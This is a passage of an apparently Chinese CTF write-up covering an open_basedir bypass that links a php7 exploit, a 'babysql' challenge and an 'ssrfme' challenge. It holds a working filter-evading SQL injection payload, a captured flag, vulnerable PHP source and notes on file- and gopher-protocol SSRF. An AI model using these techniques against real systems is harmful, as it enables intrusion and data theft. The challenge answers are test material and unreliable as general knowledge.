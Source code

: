 
#### 第三步 绕过open_basedir



php7.x,emmm还用说吗

 https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass 

走你



### babysql

单引号闭合

过滤:`union,or,select,from,where`

payload:

```
1'+uniunionon+seleselectct+1,2,3#
information_schema,test,performance_schema,mysql,geek,ctf
ctf.Flag :Flag

```

flag{76538e19-fc33-494f-ab67-494f9d5f5c94}



### ssrfme

```shell
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

遇到服务端请求文件,我想到file协议来读取文件

gopher协议端口扫描
